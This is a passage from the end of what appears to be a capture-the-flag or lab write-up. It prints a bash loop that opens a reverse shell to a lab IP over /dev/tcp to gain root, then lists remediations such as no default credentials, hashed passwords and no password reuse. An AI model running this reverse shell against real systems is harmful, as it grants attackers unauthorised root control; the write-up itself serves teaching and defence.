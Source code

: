 ```bash
while :
do
echo "Checking...";
bash -c 'bash -i >& /dev/tcp/192.168.56.101/1234 0>&1'
sleep 1;
done
```
And I repeat the above process, then it works, I get the `root` shell, and I get the `root` flag:

![evidence](./static/19-censored-rootflag.png)

## Remediation
Given I can use the default `admin:admin` credentials to access `MantisBT`, and I can read the configuration database file, and with that, I can access `Adminer`, and I see plain text passwords on the user database table, and that password is also used to access `SSH`, and the user has sudo privileges to reboot the target machine, and the user has permission to modify a file used in a service, then do not use default credentials, and do not expose sensitive files in webroot, and store passwords with hash, and do not reuse the password for multiples services, and check the user privileges, and do not allow a user can modify a root service file, then with that, it may not be possible to get the root's shell